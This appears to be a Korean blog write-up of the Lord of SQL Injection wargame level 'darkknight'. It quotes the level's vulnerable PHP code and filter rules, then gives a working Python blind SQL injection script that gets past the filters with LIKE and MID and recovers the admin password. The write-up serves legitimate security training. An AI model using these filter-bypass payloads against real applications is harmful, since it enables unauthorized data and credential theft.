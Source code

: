 ```yaml
---
title: Lord of SQL Injection Write Up No.12 Darkknight
date: 2019-08-23 10:28:26
updated:
categories:
  - Write Up
tags:
  - Lord of SQL Injection
  - Infosec
---
```


## 개요

{% img /image/los-main.png 300 %}

SQL Injection에 대한 지식을 쌓기 위해 [Lord of SQL Injection 사이트](https://los.eagle-jump.org/)의 문제를 풀고 해답을 정리한다.

이 문서에서는 Lord of SQL Injection 12번 darkknight 문제에 대하여 정리한다.

<!-- more -->

## 문제 분석

### 문제 출제 의도

`'`, `substr`, `ascii`, `=`을 대소문자 구분 없이 포함하지 않고 Blind SQL Injection을 하여 `pw`를 알아낼 수 있는지 확인한다.

### 소스 코드 분석

darkknight 문제의 php 소스 코드는 다음과 같다.

```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~");
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe");
  if(preg_match('/\'|substr|ascii|=/i', $_GET[no])) exit("HeHe");
  $query = "select id from prob_darkknight where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_darkknight where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("darkknight");
  highlight_file(__FILE__);
?>
```

#### Filter

```php
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~");
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe");
  if(preg_match('/\'|substr|ascii|=/i', $_GET[no])) exit("HeHe");
```

- GET 방식으로 `pw`를 받고, `pw`에 `prob`, `_`, `.`, `()` 가 들어 있으면 `No Hack ~_~`이 뜨고 문제 풀이에 실패한다.
- 또한, **대소문자 구분 없이** `pw`에 `'` 가 들어 있으면 `HeHe`가 뜨고 문제 풀이에 실패한다.
- 또한, **대소문자 구분 없이** `no`에 `'`, `substr`, `ascii`, `=` 이 들어 있으면 `HeHe`가 뜨고 문제 풀이에 실패한다.

#### Query

```php
  $query = "select id from prob_darkknight where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_darkknight where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("darkknight");
```

- 받은 `pw`와 `no`가 직접 쿼리에 들어간다. 이것으로 SQL Injection 공격이 가능하다는 것을 알 수 있다.
- `$result['id']`에 참이 되는 어떤 값이든 들어 있으면 응답에 `"Hello "`와 `$result[id]` 값을 붙인 문자열이 포함된다.
- 문제 풀이가 성공하는 조건은 '데이터베이스에서 받은 `pw`와 GET방식으로 전달받은 `pw`가 같음'이다. 즉, 실제 데이터베이스에 저장된 `pw`를 알아내서 전달해야 한다.

## Solution

1. `MID` 함수, `LIKE` 활용

   ```python
   import urllib.request
   from urllib.parse import quote

   key = ""

   pwlen = 0

   for i in range(1, 20):
       url = "http://los.eagle-jump.org/darkknight_f76e2eebfeeeec2b7699a9ae976f574d.php?no="
       data = "-1 || length(pw) LIKE {}#".format(str(i)) # = 을 못쓰므로 LIKE 로 수정
       print(data)
       data = quote(data)
       re = urllib.request.Request(url + data)

       re.add_header(
           "User-agent", "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36")
       re.add_header(
           "Cookie", "PHPSESSID=bb9ultdedrmse87p4473hmms81"
       )

       req = urllib.request.urlopen(re)

       if str(req.read()).find("Hello admin") != -1:
           pwlen = i
           print('pw length : ' + str(pwlen))
           break

   for i in range(1, pwlen + 1):
       for j in range(32, 127):
           if (chr(j) == '%' or chr(j) == '_'): # LIKE 를 사용하므로 와일드카드인 %와 _는 제외
               continue
           url = "http://los.eagle-jump.org/darkknight_f76e2eebfeeeec2b7699a9ae976f574d.php?no="
           data = '-1 || MID(pw, 1, {}) LIKE "{}"#'.format( # or, and 를 ||, && 로 수정, MID 함수 사용, = 을 LIKE 로 수정, ' 를 "로 수정
               str(i), key + chr(j))
           print(data)
           data = quote(data)
           re = urllib.request.Request(url + data)

           re.add_header(
               "User-agent", "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36")
           re.add_header(
               "Cookie", "PHPSESSID=bb9ultdedrmse87p4473hmms81"
           )

           req = urllib.request.urlopen(re)

           if str(req.read()).find("Hello admin") != -1:
               key += chr(j).lower()
               print(key)
               break
   print(key)
   ```

   이러한 코드를 실행하면 결과값으로 `1c62ba6f` 를 출력한다.
   이를 GET 방식으로 `pw`의 값으로 전달하면 풀린다.

   ```url
   http://los.eagle-jump.org/darkknight_f76e2eebfeeeec2b7699a9ae976f574d.php?pw=1c62ba6f
   ```
